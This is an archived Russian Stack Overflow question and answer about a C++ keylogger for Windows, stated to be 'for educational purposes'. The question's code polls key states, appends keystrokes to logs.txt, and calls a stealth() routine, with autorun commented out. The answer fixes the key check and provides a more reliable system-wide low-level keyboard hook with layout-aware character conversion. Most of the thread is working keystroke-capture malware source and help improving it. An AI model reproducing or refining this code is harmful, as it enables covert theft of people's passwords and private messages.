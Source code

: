 ```yaml
---
title: "Virtual-key codes, в файл не записываются несколько клавиш"
---
```

<p><i><a href="https://github.com/MSDN-WhiteKnight/ruso-archive/">RuSO Archive</a></i></p>
<h1>Virtual-key codes, в файл не записываются несколько клавиш</h1>
<p><a href="https://ru.stackoverflow.com/questions/963904/virtual-key-codes-%d0%b2-%d1%84%d0%b0%d0%b9%d0%bb-%d0%bd%d0%b5-%d0%b7%d0%b0%d0%bf%d0%b8%d1%81%d1%8b%d0%b2%d0%b0%d1%8e%d1%82%d1%81%d1%8f-%d0%bd%d0%b5%d1%81%d0%ba%d0%be%d0%bb%d1%8c%d0%ba%d0%be-%d0%ba%d0%bb%d0%b0%d0%b2%d0%b8%d1%88">Source</a> - by <a href="https://ru.stackoverflow.com/users/332316/hellios">Hellios</a></p>
<blockquote>
<p>Пишу кейлоггер (в познавательных целях). Использую GetAsyncKeyState и коды клавиш. Пока использую английскую раскладку. Все клавиши записываются нормально, кроме тех, которые на скрине. Т.е. после запуска проги и жмакания по ним в текстовик ничего не записывается, но с остальными клавишами таких проблем нет. Собсна, почему так происходит? Коды не соответствуют?(проверял много раз)</p>

<pre><code>#include "pch.h"
#include &lt;iostream&gt;
#include &lt;windows.h&gt;
#include &lt;fstream&gt;
#include &lt;string&gt;


using namespace std;

bool is_capslock = false;
int BackSp = 0;

int save(int key)
{
    ofstream out_file;
    out_file.open("logs.txt", ios_base::app);
    string Logs = "";


    switch (key)
    {
    case 189:
        BackSp = 0;
        if (GetAsyncKeyState(VK_LSHIFT) || GetAsyncKeyState(VK_RSHIFT)) {
            Logs += "_";
        }
        else
            Logs += "-";
        break;
    case 187:
        BackSp = 0;
        if (GetAsyncKeyState(VK_LSHIFT) || GetAsyncKeyState(VK_RSHIFT)) {
            Logs += "+";
        }
        else
            Logs += "=";
        break;
    case 219:
        BackSp = 0;
        if (GetAsyncKeyState(VK_LSHIFT) || GetAsyncKeyState(VK_RSHIFT)) {
            Logs += "{";
        }
        else
            Logs += "[";
        break;
    case 221:
        BackSp = 0;
        if (GetAsyncKeyState(VK_LSHIFT) || GetAsyncKeyState(VK_RSHIFT)) {
            Logs += "}";
        }
        else
            Logs += "]";
        break;
    case 186:
        BackSp = 0;
        if (GetAsyncKeyState(VK_LSHIFT) || GetAsyncKeyState(VK_RSHIFT)) {
            Logs += ":";
        }
        else
            Logs += ";";
        break;
    case 222:
        BackSp = 0;
        if (GetAsyncKeyState(VK_LSHIFT) || GetAsyncKeyState(VK_RSHIFT)) {
            Logs += "\"";
        }
        else
            Logs += "'";
        break;
    case 220:
        BackSp = 0;
        if (GetAsyncKeyState(VK_LSHIFT) || GetAsyncKeyState(VK_RSHIFT)) {
            Logs += "|";
        }
        else
            Logs += "\\";
        break;
    case 188:
        BackSp = 0;
        if (GetAsyncKeyState(VK_LSHIFT) || GetAsyncKeyState(VK_RSHIFT)) {
            Logs += "&lt;";
        }
        else
            Logs += ",";
        break;
    case 190:
        BackSp = 0;
        if (GetAsyncKeyState(VK_LSHIFT) || GetAsyncKeyState(VK_RSHIFT)) {
            Logs += "&gt;";
        }
        else
            Logs += ".";
        break;
    case 191:
        BackSp = 0;
        if (GetAsyncKeyState(VK_LSHIFT) || GetAsyncKeyState(VK_RSHIFT)) {
            Logs += "?";
        }
        else
            Logs += "/";
        break;
    default:
        break;
    }

    out_file &lt;&lt; Logs;
    out_file.close();
    return 0;
}

int main(int argc, char * argv[])
{
    //autorun();
    stealth();

    char buffer[MAX_PATH];
    GetModuleFileNameA(NULL, buffer, MAX_PATH);

    char i;
    while (1)
    {
        for (i = 8; i &lt;= 190; i++)
        {
            if (GetAsyncKeyState(i) == -32767)
                save(i);
        }
    }
    return(0);
}
</code></pre>

<p><a href="https://i.stack.imgur.com/sX0ny.png" rel="nofollow noreferrer"><img src="https://i.stack.imgur.com/sX0ny.png" alt="скрин"></a></p>

</blockquote>
<h2>Answer 963930</h2>
<p><a href="https://ru.stackoverflow.com/a/963930/">Source</a> - by <a href="https://ru.stackoverflow.com/users/240512/msdn-whiteknight">MSDN.WhiteKnight</a></p>
<blockquote>
<p>Во первых, неправильно реализована проверка результата GetAsyncKeyState. Правильно должно быть как-то так:</p>

<pre><code>if ((GetAsyncKeyState(i) &amp; 0x8000) != 0){
    //...
}
</code></pre>

<p>Во вторых, вызывать в цикле GetAsyncKeyState только для отлова нажатия клавиш - так себе идея, вместо этого нужно использовать специальное средство, клавиатурный хук. То же самое можно сказать про гигантский switch с проверкой все возможных кодов спецсимволов, для этого есть специальные функции, MapVirtualKey и ToUnicodeEx. Все это уже <a href="https://ru.stackoverflow.com/questions/926187/%D0%92%D1%8B%D1%81%D0%BE%D0%BA%D0%B0%D1%8F-%D0%BD%D0%B0%D0%B3%D1%80%D1%83%D0%B7%D0%BA%D0%B0-%D0%BD%D0%B0-%D0%A6%D0%9F-%D0%BF%D1%80%D0%B8-%D0%B2%D1%8B%D0%BF%D0%BE%D0%BB%D0%BD%D0%B5%D0%BD%D0%B8%D0%B8-%D0%BF%D1%80%D0%BE%D0%B3%D1%80%D0%B0%D0%BC%D0%BC%D1%8B">многократно</a> <a href="https://ru.stackoverflow.com/questions/767999/getkeyboardstate-%D0%BE%D0%BF%D1%80%D0%B5%D0%B4%D0%B5%D0%BB%D0%B5%D0%BD%D0%B8%D0%B5-%D1%81%D0%BE%D1%81%D1%82%D0%BE%D1%8F%D0%BD%D0%B8%D1%8F-%D0%BA%D0%BB%D0%B0%D0%B2%D0%B8%D1%88%D0%B8?noredirect=1&amp;lq=1">обсуждалось</a>. </p>

<p>Пример:</p>

<pre><code>#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;Windows.h&gt;

wchar_t VKCodeToUnicode(UINT vkCode)
{
    BYTE keyboardState[255]="";
    wchar_t buf[5] = L"";

    short x;
    byte y;

    for (int i = 0; i &lt; 255; i++)
    {
        if (i == VK_CAPITAL)
        {
            x = GetKeyState(i);
        }
        else
        {
            x = GetAsyncKeyState(i);
        }
        y = 0;
        if ((x &amp; 0x8000) != 0) y = (BYTE)(y | 0x80);
        if ((x &amp; 0x0001) != 0) y = (BYTE)(y | 0x01);
        keyboardState[i] = y;
    }

    ToUnicodeEx(vkCode, MapVirtualKey(vkCode, 0), keyboardState, buf, 5, 0,
        GetKeyboardLayout(GetWindowThreadProcessId(GetForegroundWindow(), nullptr)));
    return buf[0];
}

LRESULT CALLBACK LowLevelKeyboardProc(int nCode, WPARAM wParam, LPARAM lParam)
{

    if (nCode == HC_ACTION)
    {
        switch (wParam)
        {
        case WM_KEYDOWN:
            PKBDLLHOOKSTRUCT p = (PKBDLLHOOKSTRUCT)lParam;
            wchar_t c = VKCodeToUnicode(p-&gt;vkCode);
            wprintf(L"%lc\n",c);
            break;
        }
    }
    return CallNextHookEx(NULL, nCode, wParam, lParam);
}

int main(int argc, char* argv[])
{

    HHOOK hook = SetWindowsHookEx(WH_KEYBOARD_LL, LowLevelKeyboardProc, 0, 0);
    if (hook == NULL) {
        printf("Failed to install keyboard hook!\n");
        getchar();
        return 1;
    }   

    MSG msg;
    while (!GetMessage(&amp;msg, NULL, NULL, NULL)) {
        TranslateMessage(&amp;msg);
        DispatchMessage(&amp;msg);
    }

    return 0;
} 
</code></pre>

</blockquote>
<hr/>
<p><i>Content is retrieved from StackExchange API. </i></p>
<p><i>Auto-generated by ruso-archive tools. </i></p>
